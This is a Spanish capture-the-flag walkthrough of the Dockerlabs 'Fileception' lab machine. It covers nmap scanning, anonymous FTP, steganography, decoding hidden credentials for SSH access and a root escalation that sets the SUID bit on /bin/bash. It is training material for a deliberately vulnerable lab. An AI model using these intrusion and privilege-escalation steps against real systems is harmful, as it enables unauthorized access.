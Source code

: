 # Máquina Fileception

Dificultad -> Medium

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

Creador -> [danielprz](https://rubelperez.github.io/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p21,22,80 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrw-rw-    1 ftp      ftp         75372 Apr 27 02:17 hello_peter.jpg [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 618f9189a70b8e17b7dd38e000045947 (ECDSA)
|_  256 8a152913ecaaf620cac880145605ec3b (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Podemos acceder con el usuario **anonymous** al servicio **ftp**, donde tan solo encontramos una imágen, que nos descargaremos:

```shell
ftp 172.17.0.2
Name (172.17.0.2:albertomarcostic): anonymous
----------------------
230 Login successful.
```

```shell
ftp> ls
----------------------
-rwxrw-rw-    1 ftp      ftp         75372 Apr 27 02:17 hello_peter.jpg
```

```shell
ftp> get hello_peter.jpg
----------------------
226 Transfer complete.
75372 bytes received in 0.00 secs (205.3724 MB/s)
```

Echamos un vistazo a la web principal. En el código fuente encontramos un comentario con un pista:

![Pasted image 20240427192722](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/eadca9bf-a0b2-4b2a-a6a0-de06d6dfa0e5)

```
@UX=h?T9oMA7]7hA7]:YE+*g/GAhM4
```

***

## Explotación

Tras probar con varios tipos como base64,32,etc. Conseguimos decodificar la clave con **base85**. Podemos usar cualquiera página web.

La clave decodificada es -> "**base\_85\_decoded\_password**"

***

Usaremos la herramienta **steghide** para ver si hay algo escondido dentro de la imagen descargada anteriormente: Nos pide un salvoconducto o contraseña, así que probamos a usar la clave que hemos decodificado antes:

```shell
steghide --extract -sf hello_peter.jpg
Anotar salvoconducto: (introducimos la clave -> base_85_decoded_password)
----------------------------------------------------------------------------
anot los datos extrados e/"you_find_me.txt".
```

Obtenemos un archivo **you\_find\_me.txt**:

Al abrirlo, encontramos el siguiente contenido:

![Pasted image 20240427200214](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/9d5f18d8-6684-4227-bf25-911b2e71bb0c)

Haciendo un poco de búsqueda en google, se trata de un tipo de lenguaje de programación esotérico. Lo intentamos interpretar con alguna web y obtenemos la siguiente cadena de texto:

![Pasted image 20240427202355](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/864f867b-401c-4417-996a-5bd914ecbfd3)

```
9h889h23hhss2
```

Probamos esta cadena como un directorio de la web pero no funciona. La probamos como el usuario **peter** por **ssh**

```
ssh peter@172.17.0.2
```

Estamos dentro !

***

## Escalada de privilegios

Al acceder encontramos una nota importante:

```shell
cat nota_importante.txt 
-----------------------------------
NO REINICIES EL SISTEMA!!

HAY UN ARCHIVO IMPORTANTE EN TMP
```

Accedemos al directorio **/tmp** donde hay mas archivos:

```shell
cat recuerdos_del_sysadmin.txt 
------------------------------------------------
Cuando era niño recuerdo que, a los videos, para pasarlos de flv a mp4, solo cambiaba la extensión. Que iluso.
```

Encontramos otro archivo **importante\_octopus.odt** Nos lo descargamos en la máquina atacante con **scp**.

```shell
scp peter@172.17.0.2:/tmp/importante_octopus.odt ./
```

Probamos a cambiarle las extensiones, txt, sh, tar, zip, etc. Para ver como se comporta. Tras varios intentos, con **zip**, al descomprimirlo, obtenemos varios archivos.

```shell
mv importante_octopus.odt importante_octopus.zip
```

Entre ellos un **leerme-xml**.

```shell
cat leerme.xml
-------------------------------
Decirle a Peter que me pase el odt de mis anécdotas, en caso de que se me olviden mis credenciales de administrador... Él no sabe de Esteganografía, nunca sé lo imaginaria esto.

usuario: octopus
password: ODBoMjM4MGgzNHVvdW8zaDQ=
```

Obtenemos las credenciales del user **octopus**, pero parece que su contraseña es **base64**, así que la decodificamos:

```shell
echo "ODBoMjM4MGgzNHVvdW8zaDQ=" | base64 -d; echo
-----------------------------------------------------
80h2380h34uouo3h4
```

Nos conectamos como el usuario **octopus** por ssh -> **octopus:80h2380h34uouo3h4**

```ssh
ssh octopus@172.17.0.2
```

Ejecutamos **sudo -l** para ver si podemos ejecutar algo como root:

```shell
sudo -l
--------------------
User octopus may run the following commands on 154c6f2b3e10:
    (ALL) NOPASSWD: ALL
    (ALL : ALL) ALL
```

Podemos ejecutar cualquier cosa como root:

```shell
sudo chmod u+s /bin/bash
bash -p
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximos en la máquina !
